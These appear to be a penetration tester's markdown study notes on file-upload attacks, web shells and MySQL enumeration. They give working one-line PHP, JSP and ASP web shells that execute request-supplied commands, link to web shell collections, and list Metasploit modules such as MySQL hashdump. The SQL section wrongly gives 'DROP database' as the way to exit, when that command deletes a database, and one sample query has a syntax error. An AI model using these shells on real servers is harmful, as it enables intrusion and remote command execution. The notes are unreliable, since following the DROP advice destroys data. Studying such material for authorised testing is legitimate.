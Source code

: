 Upload to file shares and directories

Find a file through enumerating and overwrite it with a payload that has the same name

Blackbox environment
- upload a test file and try to see where it goes
- use `gobuster -x` to try and find file
- look at source code
- intercept requests
- if server-side filter:
	- upload file with invalid (made up) file extensions to check for white list/black list
		- if upload is successful, blacklist
		- if upload fails, whitelist


# Web Shells

`/usr/share/webshells/[file_type]/[shell]`
`/usr/share/laudanum` 
review `aspx` shells if you need to

php
	`<?php system($_REQUEST["cmd"]); ?>`

jsp
	`<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`

asp
	`<% eval request("cmd") %>`
	if you see something like `aspnet_client` in an FTP server, it could be vulnerable to an aspx shell

Extensive Functionality Web Shells:
- https://github.com/flozz/p0wny-shell
- https://github.com/b374k/b374k
- https://www.r57shell.net/single.php?id=13

# SQL

MySQL MSF modules
- Mysql_enum
- Mysql_login
- Mysql_file_enum
- Mysql_hashdump
- Mysql_schemadump

### Basics
- [https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/) common log in options
- all queries end with `;`
- enum db and tables commands
	- `SHOW DATABASES`
	- `USE [database]`
	- `DROP database [database]` to exit
	- `SHOW TABLES;` (after selecting a database)
	- `DESCRIBE [table_name]`
- enum table entries
	- `SELECT [value] FROM [table_name];`
	- `SELECT * FROM [table] WHERE [column]=[value] OR [column]=[value]`
		- `[value]` may need quotation marks if it's a string
	- `UNION SELECT` for selecting from multiple tables
		- `SELECT [column],[column], FROM [table] UNION SELECT [column] FROM [table]`
	- `LIKE` to use after `WHERE`
		- `WHERE [column] LIKE 'East%'`
		- `%` is a wildcard at the end
	- `SELECT DISTINCT [column] from [table]`